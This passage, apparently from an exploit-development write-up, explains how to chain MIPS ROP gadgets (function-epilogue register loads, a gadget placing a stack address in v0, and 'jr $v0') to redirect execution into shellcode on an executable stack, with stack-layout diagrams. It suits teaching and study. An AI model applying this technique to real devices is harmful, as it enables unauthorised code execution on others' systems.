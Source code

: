 Since a function call will use the value into ``ra`` to return back we need to
find a gadget that sets that register and jump via another register. This is
not difficult to find, I think a lot of function epilogues are similar to
the following:

```
 move $t9, $s2 ; 
 lw $ra, 0x24($sp) ; 
 lw $s2, 0x20($sp) ; 
 lw $s1, 0x1c($sp) ; 
 lw $s0, 0x18($sp) ; 
 jr $t9 ; 
 addiu $sp, $sp, 0x28
```

this is equivalento to ``ra=0x24(sp), sp+=0x28, jmp $s2``.

The plus side is that we can reload the registers with other values just in case
is necessary. Also the stack is moved further up (fortunately we have space to spare).

The updated situation in our buffer is the following:

```
 ---- increasing addresses ---->
                                               ,---- 0x18 ----.
[   padding   ][  s0  ][  s1  ][  s2  ][  ra  ][    unused    ][  s0  ][  s1  ][  s2  ][  ra  ][ ????
                                                |                                              |
  sp points here at the beginning   ------------'      sp points here at the end   ------------'
```

Since the stack is executable I can act like it's 90s again and jump into it
to execute something; this gadget loads in ``v0`` the stack's address with an offset
and jump where the value of ``s0`` points to (also writes ``v0`` back in the stack
but fortunately at an offset that doesn't interfere with our stack juggling)

```
 addiu $v0, $sp, 0x40 ; 
 ori $a1, $zero, 0x8912 ; 
 addiu $a2, $sp, 0x18 ; 
 move $t9, $s0 ; 
 jalr $t9 ; 
 sw $v0, 0x1c($sp)
```

and then, finally, we can jump to ``v0`` (i.e. inside the stack) with the simplest of all the gadgets:

```
 jr $v0 ;
 nop 
```

The memory now looks something like this

```
 ---- increasing addresses ---->
                                               ,---- 0x18 ----.                                ,---- 0x40 ----.
[   padding   ][  s0  ][  s1  ][  s2  ][  ra  ][    unused    ][  s0  ][  s1  ][  s2  ][  ra  ][    unused    ][ shellcode...
                                                                                               |
                                                                    sp points here ------------'
```
